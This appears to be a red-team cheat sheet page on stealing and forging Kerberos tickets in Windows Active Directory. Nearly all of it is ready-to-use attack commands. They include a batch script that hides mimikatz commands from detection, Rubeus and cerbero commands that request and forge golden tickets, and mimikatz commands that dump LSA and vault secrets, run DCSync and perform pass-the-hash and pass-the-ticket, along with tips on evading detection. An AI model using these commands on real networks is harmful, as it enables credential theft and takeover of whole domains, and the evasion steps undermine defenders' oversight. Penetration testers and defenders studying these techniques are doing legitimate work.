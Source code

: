 ```yaml
---
layout: post
title: credentials / krb
category: 04-credentials
parent: cheatsheets
modified_date: 2025-02-05
permalink: /creds/krb
---
```


**Mitre Att&ck Entreprise**: [T1558 Steal and Forge Kerberos Tickets](https://attack.mitre.org/techniques/T1558/) 

**Menu**
<!-- vscode-markdown-toc -->
* [tools](#tools)
	* [load-rubeus](#load-rubeus)
* [technics](#technics)
	* [command-obfuscation](#command-obfuscation)
	* [cleartext-2-nthash](#cleartext-2-nthash)
	* [get-tgt](#get-tgt)
	* [golden](#golden)
	* [silver](#silver)
	* [vault](#vault)
	* [lsadump-lsa](#lsadump-lsa)
	* [lsadump-dcsync](#lsadump-dcsync)
	* [ccache-convert](#ccache-convert)
	* [krb-export](#krb-export)
	* [krb-pth](#krb-pth)
	* [krb-ptt](#krb-ptt)
* [which-os-what-creds](#which-os-what-creds)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->



## <a name='tools'></a>tools

<script src="https://code.jquery.com/jquery-1.9.1.min.js"></script>
<script>$(window).load(function() {var mm = ["https://api.github.com/repos/GhostPack/Rubeus","https://api.github.com/repos/Flangvik/BetterSafetyKatz","https://api.github.com/repos/gentilkiwi/mimikatz","https://api.github.com/repos/zer1t0/cerbero","https://api.github.com/repos/skelsec/pypykatz"]; for (rep in mm) {$.ajax({type: "GET", url: mm[rep], dataType: "json", success: function(result) {$("#mm_list").append("<tr><td><a href='" + result.html_url + "' target='_blank'>" + result.name + "</a></td><td>" + result.pushed_at + "</td><td>" + result.stargazers_count + "</td><td>" + result.subscribers_count + "</td><td>" + result.language + "</td></tr>"); console.log(result);}});}console.log(result);});</script>

<link href="/sortable.css" rel="stylesheet" />
<script src="/sortable.js"></script>
<div id="mm">
    <table id="mm_list" class="sortable">
      <tr><th>_repo</th><th>_last_pushed</th><th>_stars</th><th>_watch</th><th>_language</th></tr>
    </table>
</div>

### <a name='load-rubeus'></a>load-rubeus
```powershell
```

## <a name='technics'></a>technics

### <a name='command-obfuscation'></a>command-obfuscation
```bat
REM script file to obfuscate the token manipulation commands 
 @echo off
set "z=s"
set "y=y"
set "x=e"
set "w=k"
set "v=e"
set "u=:"
set "t=:"
set "s=a"
set "r=s"
set "q=l"
set "p=r"
set "o=u"
set "n=k"
set "m=e"
set "l=s"
set "Pwn=%l%%m%%n%%o%%p%%q%%r%%s%%t%%u%%v%%w%%x%%y%%z%"
echo %Pwn%
C:\Users\Public\SafetyKatz.exe %Pwn% exit
```

### <a name='cleartext-2-nthash'></a>cleartext-2-nthash
```powershell
# compute nthash from clear-text password
cerbero hash $ztarg_user_pass -u $zdom_fqdn/$ztarg_user_name
$ztarg_user_nthash=""
$ztarg_user_aes256k=""
```

### <a name='get-tgt'></a>get-tgt
```powershell
cerbero ask -u $zdom_fqdn/$ztarg_user_name@ztarg_dc_fqdn --aes $ztarg_user_aes256k -k $zdom_dc_ip -vv
cerbero ask -u $zdom_fqdn/$ztarg_user_name@ztarg_computer_fqdn --aes $ztarg_user_aes256k -k $zdom_dc_ip -vv

./Rubeus.exe asktgt /user:$ztarg_user_name /password:$ztarg_user_pass /domain:$zdom /dc:$zdom_dc_fqdn /ptt
Invoke-Mimi -Command '"sekurlsa::ekeys"'
```

## forged-tickets

### <a name='golden'></a>diamond

* TGT modification, avoid detection of forged TGT without PREAUTH 
* requires the KRBTGT$ account hash

### <a name='golden'></a>golden

* TGT forging, there is no PREAUTH / Kerberos AS-REQ, AS-REP exchanges with the DC
* requires the KRBTGT$ account hash

```powershell
# contains secrets for the: scheduled tasks, ...
Rubeus.exe -args golden /aes256:$ztarg_user_aes256k /sid:$ztarg_user_sid /ldap /user:$ztarg_user_name /printcmd

.\Loader.exe -path .\Rubeus.exe -args asktgt /user:$ztarg_user_name /aes256:$ztarg_user_aes256k /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

### <a name='silver'></a>silver

* service account hash required to forgort a TGS
* it is mostly the machine account hash, valid for 30 days by default
* more silent than the golden ticket, no kerberos interaction with the DC (aka no AS-REQ, TGS-REQ)

| Service Type 				| 	Service Silver Tickets 	|
|---------------------------|---------------------------|
| WMI						| HOST RPCSS				|
| PowerShell Remoting 		| HOST HTTP (WSMAN RPCSS)	|
| WinRM						| HOST HTTP	 	 			|
| Scheduled Tasks 			| HOST 						| 
| Windows File Share (CIFS) | CIFS 						|
| LDAP operations (DCSync)  | LDAP 						|	
| Windows RSAT 				| RPCSS LDAP CIFS 			|	


### <a name='vault'></a>vault
```powershell
# contains secrets for the: scheduled tasks, ...
Invoke-Mimi -Command '"token::elevate" "vault::cred /patch"'
```

### <a name='lsadump-lsa'></a>lsadump-lsa
```powershell
# dump lsa process
Invoke-Mimi -Command '"token::elevate" "lsadump::lsa /patch"'
Invoke-Mimi -Command '"token::elevate" "sekurlsa::evasive-keys /patch"'
```
### <a name='lsadump-dcsync'></a>lsadump-dcsync
```powershell
# dcsync
Invoke-Mimi -Command '"token::elevate" "lsadump::dcsync"'
```

### <a name='ccache-convert'></a>ccache-convert

```python
# Convert linux to windows krb ticket :
ticketConverter.py $ztarg_user_name".ccache" $ztarg_user_name".krb"
cerbero convert -i $ztarg_user_name".ccache" -o $ztarg_user_name".krb"
```

### <a name='krb-export'></a>krb-export
```powershell
cd C:\tools\mimikatz\x64
mimikatz.exe privilege:debug
kerberos::list /export
```

### <a name='krb-pth'></a>krb-pth
```powershell
# run powershell with pass-the-hash
mimikatz.exe
privilege::debug
sekurlsa::pth /user:$zlat_user /rc4:xxx  /domain:$zdom /dc:$zdom_dc_fqdn /run:"powershell -ep bypass"

# opth
Rubeus.exe -args %Pwn% /user:$ztarg_user_name /aes256:$ztarg_user_hash /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
Rubeus.exe -args %Pwn% /user:$ztarg_user_name /aes256:$ztarg_user_hash /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

### <a name='krb-ptt'></a>krb-ptt
```bash
# Request a TGT as the target user and pass it into the current session
# NOTE: Make sure to clear tickets in the current session (with 'klist purge') to ensure you don't have multiple active TGTs
.\Rubeus.exe asktgt /user:$ztarg_user_name /rc4:$ztarg_user_hash /ptt

# Pass the ticket to a sacrificial hidden process, allowing you to e.g. steal the token from this process (requires elevation)
.\Rubeus.exe asktgt /user:$ztarg_
user_name /rc4:$ztarg_user_hash /createnetonly:C:\Windows\System32\cmd.exe
```

## <a name='which-os-what-creds'></a>which-os-what-creds

![Windows Credentials by Auth. Service & by OS](/assets/images/win-delpy-creds-table-by-os-til-2012.png)
